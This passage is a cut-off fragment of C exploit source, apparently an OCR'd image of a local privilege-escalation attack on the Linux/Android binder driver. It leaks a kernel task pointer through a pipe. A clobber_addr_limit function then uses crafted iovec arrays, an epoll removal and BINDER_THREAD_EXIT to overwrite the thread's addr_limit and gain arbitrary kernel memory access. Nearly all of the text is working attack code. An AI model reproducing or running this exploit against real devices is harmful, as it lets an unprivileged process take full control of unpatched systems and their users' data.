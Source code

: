 ```cpp
  printf("writev() returns 0x%x\n", (unsigned int)b);
  // second page: leaked data
  if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
  //hexdump_memory((unsigned char *)page_buffer, sizeof(page_buffer));

  printf("PARENT: Finished calling READV\n");
  int status;
  if (wait(&status) != fork_ret) err(1, "wait");

  current_ptr = *(unsigned long *)(page_buffer + 0xe8);
  printf("current_ptr == 0x%lx\n", current_ptr);
}

void clobber_addr_limit(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  unsigned long second_write_chunk[] = {
    1, /* iov_len */
    0xdeadbeef, /* iov_base (already used) */
    0x8 + 2 * 0x10, /* iov_len (already used) */
    current_ptr + 0x8, /* next iov_base (addr_limit) */
    8, /* next iov_len (sizeof(addr_limit)) */
    0xfffffffffffffffe /* value to write */
  };

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10; /* iov_len of previous, then this element and next element */
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8; /* should be correct from the start, kernel will sum up lengths when importing */

  int socks[2];
  if (socketpair(AF_UNIX, SOCK_STREAM, 0, socks)) err(1, "socketpair");
  if (write(socks[1], "X", 1) != 1) err(1, "write socket dummy byte");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
      err(1, "write second chunk to socket");
    exit(0);
  }
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  struct msghdr msg = {
    .msg_iov = iovec_array,
    .msg_iovlen = IOVEC_ARRAY_SZ
```